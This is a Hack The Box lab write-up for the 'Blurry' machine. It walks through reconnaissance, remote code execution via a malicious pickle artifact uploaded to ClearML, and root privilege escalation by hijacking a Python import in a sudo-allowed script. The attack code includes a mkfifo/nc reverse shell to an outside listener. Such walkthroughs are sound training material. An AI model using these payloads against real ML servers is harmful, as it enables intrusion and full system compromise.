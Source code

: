 ```yaml
---
tags:
  - linux
---
```

# HTB: [Blurry](https://app.hackthebox.com/machines/blurry)

> [!tip]- Summary with Spoilers
> - This machine was running a vulnerable version of the ClearML experimentation framework, which I exploited to gain RCE as the `jippity` user.
> - I discovered a `sudo` misconfiguration that allowed me to run a custom Python script as `root`.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Mon Jun 24 10:54:00 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp -sCV t
Increasing send delay for 10.10.11.19 from 0 to 5 due to 1993 out of 4982 dropped probes since last increase.
Warning: 10.10.11.19 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.11.19)
Host is up (0.095s latency).
Not shown: 65462 closed tcp ports (reset), 71 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 24 10:54:28 2024 -- 1 IP address (1 host up) scanned in 28.00 seconds
```

#### 80/tcp-http

![](_/htb-blurry-20240624-3.png)

Service scan with `whatweb`:

```console
$ whatweb -a3 http://app.blurry.htb
http://app.blurry.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.10.11.19], Script[module], Title[ClearML], nginx[1.18.0]
```

## RCE

[ClearML](https://github.com/allegroai/clearml): "Auto-Magical Suite of tools to streamline your AI workflow Experiment Manager, MLOps/LLMOps and Data-Management"

![](_/htb-blurry-20240624-1.png)

An arbitrary "Full Name" seems to work to login.

Here's the list of projects:

![](_/htb-blurry-20240624-2.png)

From there I created a new experiment under the "Black Swan" project:

![](_/htb-blurry-20240624-3.png)

And pasted that config into `clearml-init`:

```console
$ clearml-init
ClearML SDK setup process
Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration)
Or create a free account at https://app.clear.ml/settings/workspace-configuration
In settings page, press "Create new credentials", then press "Copy to clipboard".
Paste copied configuration here:
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "77S5RITDEE37Y5W9GT1H"
    "secret_key" = "wt32s1Uuq6m668WJwyIF1PkG1kfQbQlV5hxn88DBvOyR4hz6Y7"
  }
}
Detected credentials key="77S5RITDEE37Y5W9GT1H" secret="wt32***"
ClearML Hosts configuration:
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb
Verifying credentials ...
Credentials verified!
New configuration stored in /home/kali/clearml.conf
ClearML setup completed successfully.
```

```python
$ cat x.py
import pickle
import os
from clearml import Task, Logger
task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])
class MaliciousCode:
    def __reduce__(self):
        cmd = (
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.10 443 > /tmp/f"
        )
        return (os.system, (cmd,))
malicious_object = MaliciousCode()
pickle_filename = 'rick.pkl'
with open(pickle_filename, 'wb') as f:
    pickle.dump(malicious_object, f)
print("Malicious pickle file with reverse shell created.")
task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")
print("Malicious pickle file uploaded as artifact.")
```

```text
$ python3 ./x.py
ClearML Task: created new task id=a21561f590d54ca7b3b8e49efd8a89af
2024-06-24 12:02:00,128 - clearml.Task - INFO - No repository found, storing script code instead
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/a21561f590d54ca7b3b8e49efd8a89af/output/log
Malicious pickle file with reverse shell created.
Malicious pickle file uploaded as artifact.
```

```console
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.19] 41650
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(jippity) gid=1000(jippity) groups=1000(jippity)
```

## PE

```console
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

```python
jippity@blurry:~$ cat /usr/bin/evaluate_model
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.
if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi
MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"
/usr/bin/mkdir -p "$TEMP_DIR"
file_type=$(/usr/bin/file --brief "$MODEL_FILE")
# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi
/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")
    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done
/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"
if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
fi
```

```console
jippity@blurry:/models$ echo 'import os;os.system("bash")' > torch.py
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
[+] Model /models/demo_model.pth is considered safe. Processing...
root@blurry:/models# id
uid=0(root) gid=0(root) groups=0(root)
```
